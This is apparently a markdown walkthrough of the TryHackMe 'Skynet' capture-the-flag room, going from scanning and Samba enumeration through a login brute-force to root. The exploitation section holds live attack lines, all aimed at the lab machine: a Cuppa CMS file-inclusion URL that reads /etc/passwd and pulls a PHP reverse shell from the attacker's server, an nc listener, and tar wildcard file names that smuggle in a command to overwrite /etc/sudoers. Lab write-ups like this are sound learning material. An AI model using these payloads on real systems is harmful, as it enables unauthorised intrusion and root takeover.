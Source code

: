 # [Skynet](https://tryhackme.com/room/skynet)

> Difficulty: Easy
> 
> Are you able to compromise this Terminator themed machine?

<details>
  <summary>Scanning</summary>


# Scanning
We run an NMAP with  
```
nmap -sV targetmachineIP
```

+ `-sV`: Not only checks for open ports but the version of the service running.

![image](https://user-images.githubusercontent.com/115602464/195729150-4dab67da-e7ae-4a20-9404-8c3a921d1ed6.png)

Two things pop out to me here. There is a website being hosted on port 80 and samba is running on 139 and 445.

+ `Samba`: is a program that allows users to access shared files, printers, and other resources on a company's intranet.

</details>
  
  
<details>
  <summary>Enumeration</summary>


# Enumeration

Heading over to the target machines IP address in our browser we can see some sort of search engine called "Skynet".

![image](https://user-images.githubusercontent.com/115602464/195732140-1b93ad4d-7a80-4c5f-8d1a-398f288c23b8.png)

Searches don't give results, and the page source provides us with nothing important. 

Let's move on and start a dirb scan which will check for hidden directories and while that is running we will enumerate the samba service.


![image](https://user-images.githubusercontent.com/115602464/195738346-7b486a45-66af-4cc8-a115-5efb7dc1216e.png)

The dirb scan revealed a /squirrelmail/ directory. Let's check it out!

![image](https://user-images.githubusercontent.com/115602464/195739255-2b733e92-9225-4a64-ba0d-48759310adaa.png)

We are given a login form for an email application.

The hint for flag 1 is "Enumerate Samba".

Enumerating the samba service will give us some information on what kind of shares/users are available.

We will use a piece of software called enum4linux. Enum4linux enumerates Windows and Samba systems. [Info](https://www.kali.org/tools/enum4linux/#:~:text=Enum4linux%20is%20a%20tool%20for,%2C%20rpclient%2C%20net%20and%20nmblookup.)
```
enum4linux targetmachineIP
```


The results from enum4linux show us three important pieces of information:

+ `Server`: The server name is `SKYNET`.
+ `Users`: There is a `Miles Dyson` user.
+ `Shares`: There are three shares available, `PRINT$, Miles Dyson, Anonymous`.


![image](https://user-images.githubusercontent.com/115602464/195744944-d73f3b69-2eec-4d83-8520-2ee8a9664c02.png)

The anonymous share is something we can access without credentials!

Lets Access the share using smbclient. We simply provide the IP address of the server and the share we are accessing.

```
smbclient '\\targetmachineIP\Anonymous\'
```
You will be asked for a root password, hit enter and you're logged in as Anonymous!

![image](https://user-images.githubusercontent.com/115602464/195746239-a5cc15e7-0dc1-422d-8cb7-e1e99e0fb4a1.png)

We can download the attention.txt file with `get attention.txt`.

Let's also `cd` into logs and `get` the log1.txt. We will not download log2.txt and log3.txt because we see they are empty.

They will be in the pwd directory of your terminal. Simply run `quit` to exit smbclient.

Lets open up all of the files and see their contents. .

![image](https://user-images.githubusercontent.com/115602464/195748875-eaa4de15-1157-4543-b016-778f1b2adaee.png)

![image](https://user-images.githubusercontent.com/115602464/195748923-5a8f30b5-2b09-4b54-85cc-a6e9a01bb3a8.png)

We can see that there is a user named Miles Dyson, which we enumerated earlier with enum4linux, and log1.txt contained what seems to be a password list.

The list is fairly short in this case and you could manually try the passwords one by one, but let's go through the process as if the list contained a much larger password count.

The two similar tools I use in this situation is Hydra and burp suite intruder. In this case I chose burp suite.

Open up burp suite, start a temporary project, and use burp defaults. 

If you are on the attackBOX for tryhackme your firefox will have an addon called foxyproxy. It will have been configured to work with burp suite.

Turn on firefox, and click on the foxyproxy icon on the top right and select the green burp option. Your burp suite will now intercept your traffic.

![image](https://user-images.githubusercontent.com/115602464/195750364-fc218588-a37e-4579-8d5a-188181b8b6ce.png)

If you are using your own machine and are using a VPN to work on this room, check out this [Guide](https://null-byte.wonderhowto.com/how-to/use-burp-foxyproxy-easily-switch-between-proxy-settings-0196630/).

Once that is on, go to the squirrelmail login form, enter milesdyson for user and enter any random characters for pass. Check your proxy tab inside burp. There should be a POST request that looks like this:

![image](https://user-images.githubusercontent.com/115602464/195753047-94590f91-cc27-443d-a2a9-9ea4f51f0e13.png)

Right click on this and send it to intruder. Hit clear on the right side. We need to select the location in the request that will be attacked with intruder.

In this case we assume we know the correct username, milesdyson, so we just need to get the correct password.

Highlight the password that you typed in earlier in the login form and click the ADD button on the right side. 

Your request should only have the password part of the form highlighted with symbols around your pass:

![image](https://user-images.githubusercontent.com/115602464/195753133-878f7c15-7c64-4a54-b503-8d62583eb2b6.png)

Click on the payloads tab at the top, highlight and copy all of the passwords in the log1.txt file, and paste them into the payload options section.

![image](https://user-images.githubusercontent.com/115602464/195753604-3c1e0c57-f641-444a-8575-819ec0853f33.png)

Your attack is ready, just hit start attack at the top right of burp!

You should notice fairly quickly that there is one password that stands out. It will stand out because the response code will be different than the rest.

![image](https://user-images.githubusercontent.com/115602464/195754208-60a84a13-ebe3-4411-ae52-fd2ff75da949.png)

Login with milesdyson and your new found password to explore his mail.

We see an email containing an SMB password reset!

Lets use smbclient to login as milesdyson.

```
smbclient '\\targetmachineIP\milesdyson\' -U milesdyson
```
After looking around a bit we can see a notes directory with a file called `important.txt`. Lets `get` the file and `cat` it on our machine.

The contents seem to be a to-do list with the very first item being `Add features to beta CMS /45kra24zxs28v3yd`.

The `/45kra24zxs28v3yd` is a directory. Lets go to `targetmachineIP/45kra24zxs28v3yd`.

![image](https://user-images.githubusercontent.com/115602464/195756477-77cd0b84-afc1-4f8d-a90a-b4ce48a292a2.png)

There doesn't seem to be anything important here. Lets run dirb to find any directories hidden within this one.

```
dirb http://10.10.209.119/45kra24zxs28v3yd/
```

One of the directories that is found is /administrator.

![image](https://user-images.githubusercontent.com/115602464/195756685-5b5372c6-bf98-434e-bd5d-29e0c7cc4315.png)

Visiting /administrator we see a cuppa CMS login. 

</details>
  
  
<details>
  <summary>Exploitation</summary>  
  
# Exploitation

Before trying to attack the login form, lets see if there is an exploit that exists for `Cuppa CMS`.

![image](https://user-images.githubusercontent.com/115602464/195757669-54b67500-1807-4f4f-96f5-347a68db60ff.png)

Reading the exploit page we can see that this isn't a python script. This is a remote file inclusion vulnerability. This exploit can be done through the URL.

![image](https://user-images.githubusercontent.com/115602464/195758051-adf1f722-573c-40ee-b687-f8e3bc75619d.png)


We can test this by running the command

```
http://10.10.209.119/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

Since this works we can use the first example in the picture above to load up a php reverse shell.

Lets download a php reverse shell and modify the IP to match our machine and the port to be 1337.

We also need to start a python http server. We can do this with `python2 -m SimpleHTTPServer 4444`.

Place the reverse shell in the directory where you ran your python server.

Your reverse shell should look like this:

![image](https://user-images.githubusercontent.com/115602464/195759360-550fbe15-c027-4f1a-a466-190a4cdf8920.png)

Lets also host a listener on our attacker machine. This can be done with `nc -lvnp 1337`.

At this point we should have a listener on port 1337 and our python server on port 4444.

Now on the target machine we can access the revshell by going to our python server. Your IP will be different but it should look something like this:

`http://10.10.209.119/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.100.47:4444/revshell.php`

Check your listener and you should have a reverse shell!

Lets look around a little bit. There is a milesdyson folder in the home directory.

![image](https://user-images.githubusercontent.com/115602464/195760575-9c06e4d8-6219-4139-9acd-c3e972f93b7a.png)

The user flag is inside user.txt. 🚩

</details>

<details>
  <summary>Escalation</summary>
  
# Escalation

The backups folder contains a backup.sh file:

![image](https://user-images.githubusercontent.com/115602464/195760730-62664aec-e164-4225-9be7-dccf7a976c8d.png)

This shell script has a wildcard exploit. [More info here](https://materials.rangeforce.com/tutorial/2019/11/08/Linux-PrivEsc-Wildcard/)

We can exploit this by changing into the /var/www/html directory and running:

```
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
echo "/var/www/html"  > "--checkpoint-action=exec=sh privesc.sh"
echo "/var/www/html"  > --checkpoint=1
```

Lets upgrade our shell a little bit to be able to run `sudo -l`.

```
python -c 'import pty;pty.spawn("/bin/bash")';
```

After a couple of minutes we run `sudo -l`:

![image](https://user-images.githubusercontent.com/115602464/195761720-4a9a84b6-9183-41e3-a8ba-d12f80c505b4.png)

Great! Lets get the root.txt file and get our last flag! 🚩

![image](https://user-images.githubusercontent.com/115602464/195762012-08b427cb-439d-4f07-a25a-97d0739a97f1.png)


</details>
